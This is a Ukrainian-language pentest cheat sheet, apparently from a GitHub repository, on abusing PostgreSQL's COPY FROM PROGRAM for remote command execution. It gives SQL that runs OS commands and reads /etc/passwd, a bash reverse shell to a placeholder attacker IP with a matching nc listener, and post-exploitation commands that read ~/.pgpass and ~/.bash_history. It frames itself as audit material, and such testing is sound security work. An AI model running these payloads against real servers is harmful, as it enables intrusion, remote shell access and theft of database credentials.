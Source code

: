 # PostgreSQL: Тестування прав на виконання COPY FROM PROGRAM

Цей документ є шпаргалкою для пентесту або аудиту PostgreSQL щодо наявності привілеїв, які дозволяють **виконання системних команд** через SQL.

---

## 📌 Ціль

Визначити, чи має користувач можливість виконання `COPY FROM PROGRAM`, що відкриває вектор до RCE.

---
## ✅ Підключення PostgreSQL

psql -h hostname/ip -p 6543 -U postgres -d database


---
## ✅ Перевірка версії PostgreSQL

```sql
SELECT version();
-- або
SHOW server_version;
```

---

## ✅ Перевірка поточного користувача

```sql
SELECT current_user, session_user;
```

---

## ✅ Тест на виконання системної команди

### Створення тимчасової таблиці для виводу

```sql
CREATE TEMP TABLE poc_output(line text);
```

### Тестова команда ОС (наприклад `id`)

```sql
COPY poc_output FROM PROGRAM 'id';
SELECT * FROM poc_output;
```

### Reverse shell (приклад з bash)

```sql
COPY poc_output FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/YOUR-IP/4444 0>&1"';
```

На машині атакуючого:

```bash
nc -lvnp 4444
```

---

## 🔍 Перевірка: хто має доступ до COPY FROM PROGRAM

### Перевірити ролі, що мають привілей `pg_execute_server_program`

```sql
SELECT rolname
FROM pg_roles
WHERE pg_has_role(rolname, 'pg_execute_server_program', 'member');
```

### Перевірити, чи поточний користувач має це право

```sql
SELECT has_role(current_user, 'pg_execute_server_program', 'member');
```

---

## 🔎 Перевірка суперкористувача

```sql
SELECT rolname, rolsuper
FROM pg_roles
WHERE rolname = current_user;
```

---

## 🧾 Перевірка /etc/passwd (доказ читання файлів)

```sql
COPY poc_output FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM poc_output;
```

---

## 🛠 Інші корисні перевірки в shell (якщо отримано RCE)

```bash
whoami
id
groups
sudo -l
cat ~/.bash_history
cat ~/.pgpass
ls -la /root
```

---
